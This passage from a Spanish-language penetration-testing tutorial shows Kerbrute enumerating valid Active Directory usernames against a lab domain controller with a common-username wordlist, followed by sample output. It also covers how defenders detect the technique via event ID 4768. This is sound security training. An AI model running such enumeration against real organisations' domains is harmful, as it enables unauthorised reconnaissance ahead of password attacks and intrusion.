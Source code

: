 Probemos este método usando la lista de palabras [jsmith.txt](https://github.com/insidetrust/statistically-likely-usernames/blob/master/jsmith.txt) de 48,705 nombres de usuario comunes posibles en el formato `flast`. El repositorio de GitHub [statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames) es un excelente recurso para este tipo de ataque y contiene una variedad de listas de nombres de usuario diferentes que podemos usar para enumerar nombres de usuario válidos usando `Kerbrute`.

### Kerbrute User Enumeration

```r
 kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:16:11 >  Using KDC(s):
2022/02/17 22:16:11 >  	172.16.5.5:88

2022/02/17 22:16:11 >  [+] VALID USERNAME:	 jjones@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 sbrown@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 tjohnson@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 jwilson@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 bdavis@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 njohnson@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 asanchez@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 dlewis@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 ccruz@inlanefreight.local

<SNIP>
```

Hemos verificado más de 48,000 nombres de usuario en poco más de 12 segundos y descubierto más de 50 válidos. Usar Kerbrute para la enumeración de nombres de usuario generará el ID de evento [4768: A Kerberos authentication ticket (TGT) was requested](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4768). Esto solo se activará si el [registro de eventos de Kerberos](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/enable-kerberos-event-logging) está habilitado a través de la política de grupo. Los defensores pueden ajustar sus herramientas SIEM para buscar una afluencia de este ID de evento, lo que puede indicar un ataque. Si tenemos éxito con este método durante una prueba de penetración, esto puede ser una excelente recomendación para agregar a nuestro informe.

Si no podemos crear una lista de nombres de usuario válidos usando cualquiera de los métodos resaltados anteriormente, podríamos volver a la recopilación de información externa y buscar direcciones de correo electrónico de la empresa o usar una herramienta como [linkedin2username](https://github.com/initstring/linkedin2username) para combinar posibles nombres de usuario de la página de LinkedIn de una empresa.

---
